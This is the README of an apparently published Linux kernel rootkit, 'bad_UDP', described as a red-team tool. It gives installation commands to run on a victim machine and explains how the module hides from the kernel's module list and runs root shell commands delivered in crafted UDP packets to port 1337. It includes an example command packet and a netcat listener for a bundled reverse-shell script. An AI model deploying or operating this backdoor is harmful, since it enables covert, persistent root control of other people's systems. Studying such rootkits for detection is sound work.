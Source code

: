 # bad_UDP LKM Rootkit
## The goal of this rootkit is to allow an attacker/pentester to maintain persistence by execute remote commands via UDP. Once loaded, the LKM acts as a ring-0 UDP packet interceptor via a netfilter hook in the pre-routing routine. In addition, this module will hide itself by modifying the Linux kernel module list structure. Tested on Linux kernel v5.0.0

#### Once the kernel module is installed you can launch a remote command via sending a crafted UDP packet to the victim on port 1337. Example packet:
```runcmd echo 'Hello World' > /root/hello.txt\r\n```  
(Note that your packet must begin with ```runcmd ``` followed by your desired shell command. A carriage return (```\r\n```) MUST be included at the end of your remote command)


## Installation

### ON VICTIM MACHINE:
```
sudo make
sudo insmod bad_udp.ko
```


I've included a python script ```send_reverse_tcp_shell.py``` which will send a remote command to the victim opening a reverse bash TCP shell. Ensure you have a listener running as your shell server before running the python script (eg. netcat listener ```nc -lvp 4444```)


#### This LKM rootkit was written for the CFC competition red team members and is intended to be used for lawful purposes only. You are responsible for your own actions and consequences if you use this module illegally.
